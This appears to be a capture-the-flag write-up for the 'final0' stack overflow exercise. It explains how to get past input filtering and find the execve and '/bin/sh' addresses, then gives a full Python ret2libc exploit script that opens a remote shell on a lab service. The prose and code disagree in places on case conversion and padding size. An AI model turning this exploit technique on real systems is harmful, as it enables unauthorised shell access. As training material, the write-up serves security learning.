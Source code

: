 # FINAL 0

### Problems

#### Strip off trailing new line characters

```
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;
```

#### Convert to lower case

```
for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }
```

This will remove all `\n` and `\r` chars from buffer and set our injected shell bytes to upper case. But we doing buffer
overflow, so this affects to our bytes injection.

**The solution** is to set the 0x00 terminating somewhere in the buffer 512 body. This will cause the functions read the
buffer until its 0x00, so the length of buffer will be manipulated. Example:
We put the terminating byte in 312's position if the buffer. The function strlen will read all bytes until it bump into
0x00. So the length of the buffer from the execution perspective will be 311. It helps us to prevent manipulating of our
injected bytes.

#### system() or execve()?

Short answer: `execve()`

Long answer: The main problem with `system()` in our inject, that this func forks process, and then calls `execve()`.
This will cause the new esp stack in every call of `system()`, because of fork. So we need something, to prevent it.
The `execve()` function works without fork, so we can use it.

#### Padding

We know that the buffer size is 512. So we need to overwrite it. Doing some research with padding we figured out that
garbage size will be 24 bytes + ebp address (4 bytes). So we left with:

`'A' * 511 + '\x00' (terminate byte to prevent next bytes manipulating) + 'G' * 24 + 'EEEE'` - our padding

#### EXECVE

The execve function receive 3 arguments: (command, ..., ...) *`...` - don't important, we just need to understand where
we must to put the /bin/sh address

##### EXECVE ADDRESS

We need to attach the process if running final0: `gdb $(pidof final0)`.

Next we need to call `info functions @plt` and find execve address.

#### /bin/sh address

To get address of /bin/sh we need to locate the libc start address: `cat /proc/$(pidof final0)/maps`

To get /bin/sh padding: `strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh`

So address will be: `0xb7e97000 + 0x11f3bf`

### Final python script

```python
import socket
import struct
import telnetlib

HOST = '127.0.0.1'  # final0 host
PORT = 2995  # final0 port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))  # socket connection

BUFFER_PAYLOAD = 'A' * 511 + '\x00'  # buffer overwriting
GARBAGE_PAYLOAD = 'AAAABBBBCCCCDDDD' + 'EEEE'  # garbage + epb

PADDING = BUFFER_PAYLOAD + GARBAGE_PAYLOAD  # final padding

EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
BIN_BASH_ADDRESS = struct.pack('I',
                               0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh

PAYLOAD = PADDING + EXECVE_ADDRESS + 'AAAA' + BIN_BASH_ADDRESS + '\x00' * 8 # '\x00' * 8: last 2 args of execve()

s.send(PAYLOAD + '\n')
s.send('whoami\n')
print 'user: ' + s.recv(1024)

t = telnetlib.Telnet() # to interact
t.sock = s
t.interact()
```



